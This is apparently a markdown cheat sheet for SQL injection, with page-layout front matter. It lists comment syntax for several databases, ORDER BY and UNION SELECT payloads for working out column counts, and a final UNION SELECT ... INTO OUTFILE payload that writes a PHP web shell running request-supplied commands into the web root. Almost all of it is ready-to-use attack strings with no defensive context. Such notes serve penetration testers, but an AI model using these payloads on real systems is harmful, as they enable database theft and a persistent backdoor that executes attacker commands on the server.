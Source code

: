 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQL injection

## Comments

```bash
# Oracle
--comment

# MSSQL
--comment
/*comment*/

# PostgreSQL
--comment
/*comment*/

# MySQL
#comment
-- comment    # include the space
/*comment*/
```

## Detecting columns

```bash
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on. Until an error occured
```

### Union select

```bash
# keep replacing 'a'. Until an error occured
' UNION SELECT 'a',NULL,NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL,NULL--
```

### Union all select

```bash
' UNION ALL SELECT 1-- - 
' UNION ALL SELECT 1,2-- -
' UNION ALL SELECT 1,2,3-- -
# keep going until one of the number in the output
```

## Backdoor/web shell

```php
# PHP web shell
' UNION ALL SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/cmd.php'-- -
```
